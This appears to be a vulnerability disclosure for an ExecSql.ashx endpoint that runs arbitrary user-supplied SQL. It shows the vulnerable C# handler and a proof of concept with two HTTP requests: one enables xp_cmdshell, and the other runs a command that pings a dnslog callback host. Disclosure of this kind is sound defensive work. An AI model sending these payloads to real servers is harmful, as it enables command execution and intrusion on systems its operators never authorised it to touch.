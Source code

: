 ![image-20250307232200876](./assets/image-20250307232200876.png)

# Vulnerability Report
## Vendor Homepage
http://www.softwin.cc/pd.jsp?id=1

## Title:
Arbitrary Code Execution in ExecSql.ashx Endpoint

### Summary:
The ExecSql.ashx endpoint of the vendor's application is vulnerable to arbitrary code execution, allowing attackers to execute malicious SQL commands on the underlying database server.

### Affected Endpoint:
ExecSql.ashx

### Vulnerability Type:
Arbitrary Code Execution (ACE)

### Vulnerable Code:
```c#
public class ExecSql : IHttpHandler {

    public void ProcessRequest (HttpContext context) {
        context.Response.ContentType = "text/plain";
        JsonStr jsonResult = new JsonStr();
        try
        {
            String s = context.Request.Headers.ToString();//获得通过HTTP协议协议头传过来的的json数据
            String objStr = HttpUtility.UrlDecode(Utils.GetParamJson(s), Encoding.UTF8);
            Log.Debug("执行sql", objStr);
            if (objStr.Length == 0)//objStr.Length == 0
            {
                jsonResult.Msg_code = ReturnCode.paramater_error;
                jsonResult.Msg_info = "[]";
            }
            else
            {
                try
                {
                    var Paramater = JsonConvert.DeserializeObject<dynamic>(objStr);
                    string sqlStr = Paramater.sqlStr;   //任意sql语句执行
                        
                    var sql = new SqlRun.DBAccess(SqlRun.DBAccess.sqlstr);
                    var dtKey = sql.RunProcedureDR(sqlStr);
                    var ds = new DataSet();
                    ds.Tables.Add(dtKey);
                    jsonResult.Msg_code = ReturnCode.pass;
                    jsonResult.Msg_info = JsonToAndToJson.ToJson(ds);
                }
                catch (Exception ex)
                {
                    jsonResult.Msg_code = ReturnCode.paramater_text_error;
                    jsonResult.Msg_info = "[{\"error\":\"" + ex.Message + "\"}]";
                    Log.Error("error", ex.Message);
                    context.Response.Write(jsonResult.GetJonStr());
                    return;
                }
            }
        }
```

### Proof of Concept (PoC):
1. Send a POST request to the ExecSql.ashx endpoint with the following payload:
```
POST /jk/ExecSql.ashx HTTP/1.1
Host: yourapiendpoint.com
Content-Type: application/json
Content-Length: 47

{
  "sqlStr": "EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;"
}
```

2. Send another POST request to the ExecSql.ashx endpoint with the following payload:
```
POST /jk/ExecSql.ashx HTTP/1.1
Host: yourapiendpoint.com
Content-Type: application/json
Content-Length: 47

{
  "sqlStr": "exec master..xp_cmdshell 'ping 952eb654.log.dnslog.myfw.us.'"
}
```

![image-20250225205003552](./assets/image-20250225205003552.png)

### Impact:

An attacker can exploit this vulnerability to execute arbitrary SQL commands on the server, potentially leading to data leakage, data manipulation, or unauthorized access.

### Recommendation:
1. Sanitize and validate user inputs to prevent SQL injection attacks.
2. Avoid executing user-supplied SQL commands directly on the database.
3. Implement least privilege access controls to limit the capabilities of the database user account used by the application.

### Conclusion:
The ExecSql.ashx endpoint in the vendor's application is susceptible to arbitrary code execution, posing a significant security risk. It is crucial for the vendor to address this vulnerability promptly to protect the integrity and confidentiality of their users' data.

### References:
- OWASP SQL Injection Prevention Cheat Sheet: https://owasp.org/www-community/Preventing_SQL_Injection_in_ASP.NET
- Microsoft Documentation on SQL Injection: https://docs.microsoft.com/en-us/previous-versions/msp-n-p/ff648339(v=pandp.10)

